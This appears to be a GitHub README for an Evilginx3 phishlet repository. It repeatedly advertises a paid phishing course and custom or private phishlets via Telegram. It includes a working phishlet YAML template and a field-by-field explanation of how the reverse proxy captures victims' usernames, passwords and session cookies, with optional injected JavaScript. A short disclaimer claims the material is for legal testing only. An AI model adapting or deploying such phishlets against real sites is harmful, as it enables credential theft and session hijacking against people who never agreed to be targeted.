 # Updated Evilginx3 Phishlets      
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.


# FOR [Advanced EvilGoPhish Mastery Course] CONTACT IN MY TELEGRAM  -  https://t.me/hidden9090           

  
 
If not replying you than  I'm busy in that case , please   
Text my team  
(https://t.me/hidden9090team)
   
        

This is a course for the advanced hackers, red teams, and penetration testers looking to gain an edge in today's security environment.   
Learn advanced phishing & smishing techniques with EvilGoPhish 3.0, one of the most powerful reverse-proxy phishing tools available.

EvilGoPhish Mastery is *bar none* the most dynamic and nuanced reverse-proxy phishing course on the market.

The course works in tandem with this repo by diving deep into the entire process of deploying these scripts for red team phishing & smishing campaigns.



# Curriculum Previews:

![Screenshot 2024-06-01 064917](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/f506630f-06ff-4285-9c09-26fbcf57a588)
![evilgophish 3 0 course preview release setup section trailer](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/9be0b731-6934-4d52-ba7c-becb43141a96)
![Evilgophish mastery course cloudflare turnstile lesson preview www simplerhacking](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/0c22ecc6-9b6d-44c0-bf3f-e8624ecbd917)

![Screenshot 2024-06-01 044437](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a295035-e41a-4c9a-956a-c0366129088c)



![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (1)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cb043987-2315-47dc-abf6-9e508d7c1128)

![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (2)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a3dd41e-72b4-4701-9675-53f8c765a246)

![(Smaller 8 MB for Github) evilgophish kuba graphic in moving format and gif short 8 second loop](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cba899aa-e100-4af9-b621-f5dce14b2786)




## Need Custom Phishlets? 
MY TELEGRAM  -  https://t.me/hidden9090


If not replying you than  I'm busy in that case , please 
Text my team 
(https://t.me/hidden9090team)


##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0


```

CONTACT :- MY TELEGRAM - https://t.me/hidden9090



**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.



## Want more Evilginx Phishlets not available on Github? 
Gain access to more private Phishlets not available to the public Contact me  -  https://t.me/hidden9090

If not replying you than  I'm busy in that case , please 
Text my team 
(https://t.me/hidden9090team)



<img width="264" alt="Patreon" src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/3e9d587d-0792-4dad-a6d2-aaa004197508">



### Enroll in our training lessons            

CONTACT :-
MY TELEGRAM  -  https://t.me/hidden9090

If not replying you than  I'm busy in that case , please 
Text my team 
(https://t.me/hidden9090team)

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.


https://t.me/+1tDzjSCGDDs0ODA9
